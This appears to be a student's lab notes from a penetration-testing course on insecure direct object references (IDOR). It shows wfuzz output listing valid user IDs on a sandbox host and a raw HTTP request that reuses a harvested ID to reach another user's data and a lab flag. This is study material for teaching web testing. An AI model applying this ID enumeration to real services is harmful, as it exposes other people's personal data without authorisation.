 ```bash
000083272:   200        76 L     177 W      2952 Ch     "83271"                                                                                       
000099181:   200        76 L     177 W      2907 Ch     "99180"                                                                                       
Total time: 0
Processed Requests: 100000
Filtered Requests: 99990
Requests/sec.: 0


```

We have successfully managed to retrieve other users' UID values. We could exfiltrate information about these users by simply providing these values in place of our valid UID.

Let's give it a try. We'll point our browser to `http://idor-sandbox:80/user/?uid=57191`, using a UID collected from our fuzzing.

Loading this endpoint to our web browser, we'll receive the following data.

![[Pasted image 20241105161329.png]]

We have successfully exfiltrated the Name, Handle, Location, and Member Status for the user McLovin.

In the next Learning Unit, we will cover an IDOR Case Study for OpenEMR.


#### 13.2.5 Extra Mile Labs
![[Pasted image 20241105163807.png]]
Took this from the `wfuzz` results
```bash
000083272:   200        76 L     177 W      2952 Ch     "83271"  
```
used this payload to get flag in burpsuite
```http
GET /user/unsubscribe.php?uid=83271 HTTP/1.1
Host: idor-sandbox
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://idor-sandbox/user/?uid=99180
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=f41ffa33a0125d011ec500d2fc80afd8
Connection: keep-alive
```


![[Pasted image 20241105163634.png]]

